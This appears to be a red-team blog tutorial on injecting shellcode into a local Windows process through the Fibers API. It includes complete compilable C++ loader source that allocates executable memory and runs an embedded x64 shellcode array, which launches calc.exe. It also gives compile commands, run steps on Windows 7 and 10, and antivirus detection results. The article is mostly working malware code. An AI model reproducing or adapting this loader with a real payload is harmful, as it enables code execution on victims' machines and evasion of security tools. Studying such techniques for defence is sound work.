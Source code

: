 ```yaml
---
title:  "Code injection via windows Fibers. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/26/2021-11-28_20-18.png"
categories: 
  - tutorial
tags:
  - code injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![fiber injection](/assets/images/26/2021-11-28_20-18.png){:class="img-responsive"}    

In this post, I'll take a look at the code injection to local process through Windows Fibers API.    

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.    

### Example

Let's go to consider an example which demonstrate this technique.   

Firstly, before scheduling the first fiber, call the `ConvertThreadToFiber` function to create an area in which to save fiber state information:

![fiber injection 2](/assets/images/26/2021-11-28_20-49.png){:class="img-responsive"}    

Then, allocate some memory for our payload and payload is written to the allocated memory:

![fiber injection 3](/assets/images/26/2021-11-28_20-50.png){:class="img-responsive"}    

As you can see, `VirtualAlloc` called with `PAGE_EXECUTE_READWRITE` parameter, which means executable, readable and writeable.

The next step is create a fiber that will execute the our payload:    

![fiber injection 4](/assets/images/26/2021-11-28_20-57.png){:class="img-responsive"}    

And finally, schedule the newly created fiber that points to our payload:

![fiber injection 5](/assets/images/26/2021-11-28_20-59.png){:class="img-responsive"}    

So, our full source code is (`hack.cpp`):      
```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, (LPFIBER_START_ROUTINE)payload_mem, NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile our simple malware:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![fiber injection 6](/assets/images/26/2021-11-28_21-04.png){:class="img-responsive"}    

Let's go to launch a `hack.exe` on windows 7 x64:    
```cmd
.\hack.exe
```

![fiber injection 7](/assets/images/26/2021-11-28_21-06.png){:class="img-responsive"}    

Also perfectly worked on `windows 10 x64 (build 18363)`:

![fiber injection 8](/assets/images/26/2021-11-28_21-08.png){:class="img-responsive"}    

Let's go to upload our malware to virustotal:

![fiber injection 9](/assets/images/26/2021-11-28_21-31.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**So, 25 of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[Source code in Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*